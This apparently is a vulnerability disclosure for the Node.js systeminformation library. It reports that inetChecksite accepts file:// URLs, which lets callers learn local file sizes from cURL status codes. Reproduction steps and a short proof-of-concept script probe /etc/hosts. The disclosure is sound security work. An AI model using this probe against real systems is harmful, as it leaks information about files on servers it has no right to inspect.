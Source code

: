 # :dizzy: Description:
- Systeminformation Is a System Information Library for Node.JS. And It's Vulnerable To Local File Sizes Disclosure Via `inetChecksite` Function Due To Lack Of File Scheme Validation On The cURL Command. That Allows Attackers With Controlled Inputs To Disclose Files That Exists On The Local Server And It's Sizes By Detecting The Status Code That's Detected By Basic cURL Command Results.

# :ok_hand: Steps To Reproduce:
- Create New Nodejs Project Then Install systeminformation Using `npm install systeminformation`
- Create `main.js` Then Include This Code On It:

```javascript
var systemInformation = require('systeminformation');
systemInformation.inetChecksite('file:///etc/hosts').then(data => console.log(data));
```
- Run The Program Using: `node main.js` Then See The Output Status Code. It Will Be `/etc/hosts` File Size
- Use This Command: `ls -l /etc/hosts` To Get The `/etc/hosts` Size Then You Will Get That They're The Same

# :boom: Proof Of Concept:
- Here I Wrote a Simple Proof Of Concept Code That Proves That The Status Code is The Same as The fileSize On The Local System.

```javascript
var systemInformation = require('systeminformation');
var { exec } = require('child_process');

console.log("systemInformation Results:");
exec('ls -l /etc/hosts' , function(error , out) {
    if (error) {
        throw error;
    }

    console.log(out);
})
systemInformation.inetChecksite('file:///etc/hosts').then(data => console.log(data));
```
